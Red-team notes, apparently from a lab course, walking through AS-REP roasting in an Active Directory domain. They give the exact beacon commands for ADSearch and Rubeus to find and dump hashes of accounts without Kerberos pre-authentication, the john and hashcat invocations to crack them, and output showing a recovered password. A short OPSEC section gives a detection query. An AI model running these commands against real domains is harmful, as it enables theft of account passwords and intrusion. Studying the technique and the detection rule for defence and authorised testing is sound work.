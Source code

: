 
If a user does not have Kerberos pre-authentication enabled, an AS-REP can be requested for that user, and part of the reply can be cracked offline to recover their plaintext password.  This configuration is enabled on the User Object and is often seen on accounts that are associated with Linux systems.

![[ASREP EXAMPLE.png]]

As with kerberoasting, we don't want to asreproast every account in the domain.

```BASH
# ABLE TO BE DONE WITH ONLY LOCAL ADMINISTRATOR
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

[*] TOTAL NUMBER OF SEARCH RESULTS: 1
	[+] cn                : Squid Proxy
	[+] distinguishedname : CN=Squid Proxy,CN=Users,DC=dev,DC=cyberbotic,DC=io
	[+] samaccountname    : squid_svc
```

```BASH

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap

[*] SamAccountName         : squid_svc
[*] DistinguishedName      : CN=Squid Proxy,CN=Users,DC=dev,DC=cyberbotic,DC=io
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Building AS-REQ (w/o preauth) for: 'dev.cyberbotic.io\squid_svc'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$squid_svc@dev.cyberbotic.io:BEDE491E0C9B3E932F9B4DF274AB059B$0947A85824870A9EA0B2C832B30D8B99BDA99F9451E9EB14AA0D9566674B32A10BE4954E6FB15DED54462D4AAAAE28DFB08C83EF0608DA6EEB9A08DBC79C06099D2B366BA5402A0ED60545B92B17882557CBB0FC700309751C51AF33F25A3103FA67DAAD9AD2154FE4171FBEFBE725AA1311CE50EFB8B87FF1BBCF5E97C496E08BA3CC4CA4F59820C4C27251686658C9F7EE52B43ED5A969A02273510AC7CCFB5DFE61E7A9D72E10B81E7B3ACBFDA0F3F058791E9A87D990871961D3BD9AEB40B9D0A1260094B17DCB8114DDBB19B5C2031F2906E527F96F1AFA62D907570E39E047659532F1FA043371DDF8D7FB9A5E5369A889A7BC
```

Use `--format=krb5asrep --wordlist=wordlist squid_svc` for john or `-a 0 -m 18200 squid_svc wordlist` for hashcat.

```BASH

$ john --format=krb5asrep --wordlist=wordlist squid_svc
Passw0rd!        ($krb5asrep$squid_svc@dev.cyberbotic.io)
```

### OPSEC CONSIDERATION

ASREPRoasting with will generate a 4768 event with RC4 encryption and a preauth type of 0.

```BASH

event.code: 4768 and winlog.event_data.PreAuthType: 0 and winlog.event_data.TicketEncryptionType: 0x17
```